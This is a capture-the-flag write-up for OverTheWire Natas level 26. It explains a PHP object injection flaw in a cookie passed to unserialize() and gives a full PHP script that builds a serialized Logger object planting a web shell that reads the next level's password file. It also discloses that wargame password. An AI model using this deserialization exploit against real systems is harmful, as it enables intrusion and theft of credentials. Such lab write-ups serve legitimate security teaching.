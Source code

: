 # Natas 26 Solution

As we inspect the code, we notice that the `Logger` class is suspiciously unused.

```php
class Logger{
    private $logFile;
    private $initMsg;
    private $exitMsg;
  
    function __construct($file){
        // initialise variables
        $this->initMsg="#--session started--#\n";
        $this->exitMsg="#--session end--#\n";
        $this->logFile = "/tmp/natas26_" . $file . ".log";
  
        // write initial message
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$initMsg);
        fclose($fd);
    }                       
  
    function log($msg){
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$msg."\n");
        fclose($fd);
    }                       
  
    function __destruct(){
        // write exit message
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$this->exitMsg);
        fclose($fd);
    }                       
}
```

Furthermore, there are multiple calls to PHP's `unserialize` function, passing in unsanatized user input.

```php
if (array_key_exists("drawing", $_COOKIE)){
    $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
    // ...
}
// ...
if (array_key_exists("drawing", $_COOKIE)){
    $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
}
```

As it turns out, there is a [PHP Object Injection Vulernability](https://www.owasp.org/index.php/PHP_Object_Injection) with the `unserialize()` function. If we serialize a `Logger` class, when the PHP script `unserialize`s it, it will run the `__destruct()` function of `Logger`.

Knowing this, all that's left to do is to generate a malicious Logger instance, serialize it, encode it in base64, and set the value of the `drawing` cookie.

We can write a PHP script to help us. ([PHP File Link](../resources/Natas26/natas26.php))
```php
<?php

class Logger{
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __construct($file){
        // initialise variables
        $this->initMsg="";
        $this->exitMsg="<?php passthru('cat /etc/natas_webpass/natas27') ?>";

        $this->logFile = "/var/www/natas/natas26/img/evilfile.php";

        // write initial message
        // $fd=fopen($this->logFile,"a+");
        // fwrite($fd,$initMsg);
        // fclose($fd);
    }

    function log($msg){
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$msg."\n");
        fclose($fd);
    }

    function __destruct(){
        // write exit message
        // $fd=fopen($this->logFile,"a+");
        // fwrite($fd,$this->exitMsg);
        // fclose($fd);
    }
}

$maliciousLogger = new Logger("myfile");

echo "Evil serialized code!!\n";
echo serialize($maliciousLogger) . "\n";
echo "End evil serialized code\n\n\n";

echo "Base64 encoding:\n\n";
echo base64_encode(serialize($maliciousLogger));
```

In particular note the following lines:
```php
$this->exitMsg="<?php passthru('cat /etc/natas_wbpass/natas27') ?>";
$this->logFile="/var/www/natas/natas26/img/evilfile.php";
```

Finally, we can run the PHP file, copy-paste the encoded serialized object into the value of the cookie `drawing`, reload the page, and visit [http://natas26.natas.labs.overthewire.org/img/evilfile.php](http://natas26.natas.labs.overthewire.org/img/evilfile.php).

**Username: natas27**  
**Password: 55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ**
